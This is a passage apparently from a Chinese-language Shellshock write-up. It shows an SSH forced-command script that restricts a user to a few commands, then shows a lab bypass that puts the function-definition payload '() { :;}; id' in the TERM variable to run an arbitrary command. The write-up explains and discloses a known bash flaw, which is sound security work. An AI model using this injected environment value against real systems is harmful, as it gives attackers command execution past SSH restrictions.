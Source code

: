 一个用于控制command/SSH_ORIGINAL_COMMAND的脚本

```
shawn@linux-ionf:~/.ssh> cat /tmp/ssh.sh
#!/bin/sh

case "$SSH_ORIGINAL_COMMAND" in
    "ps")
        ps -ef
        ;;
    "vmstat")
        vmstat 1 100
        ;;
    "cups stop")
        /etc/init.d/cupsys stop
        ;;
    "cups start")
        /etc/init.d/cupsys start
        ;;
    *)
        echo "Sorry. Only these commands are available to you:"
        echo "ps, vmstat, cupsys stop, cupsys start"
        #exit 1
        ;;
esac

```

机器A上可以正常的使用限制脚本:

```
shawn@debian-test32:~/.ssh$ export SSH_ORIGINAL_COMMAND="ps"
shawn@debian-test32:~/.ssh$ ssh  shawn@192.168.115.129 $SSH_ORIGINAL_COMMAND
Enter passphrase for key '/home/shawn/.ssh/id_rsa': 
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 16:47 ?        00:00:02 /sbin/init showopts
root         2     0  0 16:47 ?        00:00:00 [kthreadd]
root         3     2  0 16:47 ?        00:00:00 [ksoftirqd/0]

```

借助TERM来利用：

```
shawn@debian-test32:~$ export TERM='() { :;}; id'; ssh  shawn@192.168.115.129
Enter passphrase for key '/home/shawn/.ssh/id_rsa': 
uid=1000(shawn) gid=100(users) groups=100(users)
Connection to 192.168.115.129 closed.

```

0x02 补丁和后续
----------

* * *
